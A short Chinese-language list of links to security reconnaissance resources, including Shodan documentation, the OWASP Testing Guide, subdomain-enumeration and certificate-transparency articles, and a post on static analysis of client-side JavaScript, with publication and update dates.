-   [shodan官方手册](https://help.shodan.io/)
-   [shodan使用手册](https://www.defcon.org/images/defcon-18/dc-18-presentations/Schearer/DEFCON-18-Schearer-SHODAN.pdf)，可能需要带上梯子
-   [社区共享](https://www.shodan.io/explore)
-   [shodan新手入坑指南](http://www.freebuf.com/sectool/121339.html)
-   [Owasp Testing Guide v4](https://kennel209.gitbooks.io/owasp-testing-guide-v4/content/zh/index.html)
-   [红蓝对抗之域名搜集方法总结](https://security.tencent.com/index.php/blog/msg/161)，腾讯蓝军域名搜集总结
-   [The Art of Subdomain Enumeration](https://appsecco.com/books/subdomain-enumeration)，子域名收集总结很全面
-   [Certificate Transparency — The bright side and The dark side](https://blog.appsecco.com/certificate-transparency-the-bright-side-and-the-dark-side-8aa47d9a6616)，证书透明度三篇文章  
    [Certificate Transparency — The bright side and The dark sid](https://blog.appsecco.com/certificate-transparency-part-2-the-bright-side-c0b99ebf31a8)  
    [Certificate Transparency Part 3— The dark side](https://blog.appsecco.com/certificate-transparency-part-3-the-dark-side-9d401809b025)，
-   [Static Analysis of Client-Side JavaScript for pen testers and bug bounty hunters](https://blog.appsecco.com/static-analysis-of-client-side-javascript-for-pen-testers-and-bug-bounty-hunters-f1cb1a5d5288)，JS 静态分析

最近更新：2023年10月30日 11:48:52

发布时间：2018年03月25日 18:35:00
